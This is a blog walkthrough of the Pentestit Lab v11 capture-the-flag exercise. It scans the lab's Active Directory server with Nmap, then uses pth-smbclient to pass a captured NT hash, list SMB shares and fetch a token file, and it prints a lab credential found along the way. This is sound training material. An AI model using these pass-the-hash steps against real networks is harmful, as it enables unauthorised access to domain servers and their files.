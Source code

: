 ```yaml
---
layout: single
title: "Pentestit Lab v11 - AD Token (4/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
related: true
comments: true
---
```


In my previous post "[Pentestit Lab v11 - RDP Token (3/12)](https://jhalon.github.io/pentestit-lab-11-rdp-token/)", we footprinted the Office 2 subnet, utilized SSH tunneling to attain RDP access, enumerated and brute forced RDP username/passwords, utilized the MS16-032 Privilege Escalation Exploit, found a user password hash and found our third token. Today we will return back to the Main Office to utilize our newly found hash to compromise the AD Server, and the AD Token - which will include the following:

* Footprinting the AD Server
* Leveraging PTH (Pass the Hash) for SMB Authentication
* Finding the AD Token

## Footprinting the AD Server

If you recall back to my previous post, after we compromised the RDP Token we began to carry out some Post-Exploitation Intelligence Gathering and found a password hash for the user arm554. Now that we have a legitimate hash we can go ahead and attempt to go back and attack the AD server.

Looking at the [Network Map](https://jhalon.github.io/images/ptl-3.png) we see that the AD Server is located in the Main Office using the IP of __172.16.0.10__.

At this point I hope you didn't close out your OpenVPN connection that we brute forced during [Pentestit Lab v11 - Site Token](https://jhalon.github.io/pentestit-lab-11-site-token/). If you did, and forgot how to re-connect back to the Main Office, then I suggest you go back and read on how we accomplished that task.

Once you are connected back to the Main Office, let's fire up Nmap and scan the AD server to see if there are any open ports that might be of interest to us.

```console
root@kali:~/pentestit# nmap -A -sV -n 172.16.0.10

Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-17 22:08 CDT
Nmap scan report for 172.16.0.10
Host is up (0.46s latency).
Not shown: 983 filtered ports
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2017-07-01 04:23:36Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: TESTLAB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-U9CSMSIDNP7.Test.Lab
| Not valid before: 2017-06-29T06:47:11
|_Not valid after:  2017-12-29T06:47:11
|_ssl-date: 2017-07-01T04:25:44+00:00; -16d22h45m39s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: WIN-U9CSMSIDNP7; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16d22h45m39s, deviation: 0s, median: -16d22h45m40s
|_nbstat: NetBIOS name: WIN-U9CSMSIDNP7, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:2f:9d:23 (Oracle VirtualBox virtual NIC)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-U9CSMSIDNP7
|   NetBIOS computer name: WIN-U9CSMSIDNP7\x00
|   Domain name: Test.Lab
|   Forest name: Test.Lab
|   FQDN: WIN-U9CSMSIDNP7.Test.Lab
|_  System time: 2017-06-30T21:25:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_smbv2-enabled: Server supports SMBv2 protocol

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   505.51 ms 10.255.0.1
2   505.54 ms 172.16.0.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 283.98 seconds
```

After reviewing the Nmap scan we that TCP/139 and TCP/445 are open, thus NetBIOS and [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) are currently open and accepting connections.

Now if we look toward the bottom of the scan we can see that Namp executed a smb script scan against the AD server, meaning that we are able to connect to the AD via SMB with user level authentication.

We already have the username/password for __arm554__ so let's attempt to connect to the AD Server using [smbclient](https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html) with the username arm554.

```console
root@kali:~/pentestit# smbclient -L 172.16.0.10 -U arm554
WARNING: The "syslog" option is deprecated
Enter arm554's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Unfortunately it seems we were able to connect, but the login failed - so maybe the password we had was bad?

## Leveraging PTH (Pass the Hash) for SMB Authentication

Judging by the nmap scan, this is a Windows 2012 R2 Sever and it currently supports SMBv2. Since we know that arm554 is a valid user, and we found his hash on the compromised RDP machine, what we can do is attempt something called [Pass the Hash](https://en.wikipedia.org/wiki/Pass_the_hash), which should allow us to authenticate to the AD machine remotely without knowing the legitimate user's password.

We can utilize this awesome tool called [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) to pass the hash via a smb client. If all goes well, we should be able to list the active shares on AD.

Let's utilize the following command to do just that...

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	files           Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Connection to 172.16.0.10 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

## Finding the AD Token

Awesome! So we were able to successfully list all the active shares on the AD Server via Pass the Hash! The share titled __files__ looks interesting, so let's go ahead and connect to it via SMB again and see what's inside.

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 \\\\172.16.0.10\\files 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]
smb: \> ls
  .                                   D        0  Fri Jun 30 15:40:00 2017
  ..                                  D        0  Fri Jun 30 15:40:00 2017
  network_test.txt                    A      103  Fri Jun 30 15:43:19 2017
  token.txt                           A       14  Fri Jun 30 20:14:55 2017

		10395647 blocks of size 4096. 8167939 blocks available

smb: \>
```

Running `ls` via the smb client shoes us that there are two files in the __files__ share, a network test document, and the token!

Let's download those files to our computer so we can read them.

```console
smb: \> get network_test.txt
getting file \network_test.txt of size 103 as network_test.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> get token.txt 
getting file \token.txt of size 14 as token.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Now from out Kali machine, we can read both files - let's see what the __network\_test.txt__ files has.

```console
root@kali:~/pentestit# cat network_test.txt 
Hi, mate! Need to test ARP-table in DIR subnet.
I'll install intercepter admin:77_GrantedSuperAdmin_77
```

Awesome! We got a username and password for the DIR subnet, as well as a hint! ARP-table... hmm, what could it be used for? A well, we will just have to save this and find out later!

## Token (4/12)

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the AD sever via Pass the Hash!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (5/12) - The Director Token!
